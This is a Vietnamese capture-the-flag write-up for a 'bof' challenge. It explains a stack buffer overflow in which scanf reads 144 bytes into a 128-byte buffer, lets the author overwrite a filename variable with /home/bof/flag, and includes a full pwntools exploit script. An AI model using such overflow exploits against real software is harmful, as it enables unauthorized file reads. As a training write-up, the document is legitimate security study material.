

# Decription


# Source
Bài không cho chúng ta source mà chỉ có binary. Dùng ida để dịch ngược.

Main Func:

Read_cat Func:


# Problem
```c
Ta dễ thấy trong hàm main v4 được khai báo 128 bytes mà scanf lại nhập tới 144 bytes.
-> v5 bị ghì đè.

Mà ta thấy read_cat sẽ mở v5 đọc và in nó ra.

Hơn nữa trong mô tả ta thấy rằng flag ở trong /home/bof/flag.

-> ghì đè v5 thành /home/bof/flag.
```
# Solve
```c
payload = b'a'*128
payload +=b'/home/bof/flag'
```


Hmm. Tôi sẽ tạo 1 file trong /home/bof/flag trên máy local để test.



Chạy lại script:


Rồi. Connect lên server là lấy flag thật.

# Full script

```c
#!/usr/bin/env python3

from pwn import *

exe = ELF('bof', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''


        c
        ''')
        input()


if args.REMOTE:
    p = remote('')
else:
    p = process([exe.path])
# GDB()

payload = b'a'*128
payload +=b'/home/bof/flag'

sl(payload)

p.interactive()
```
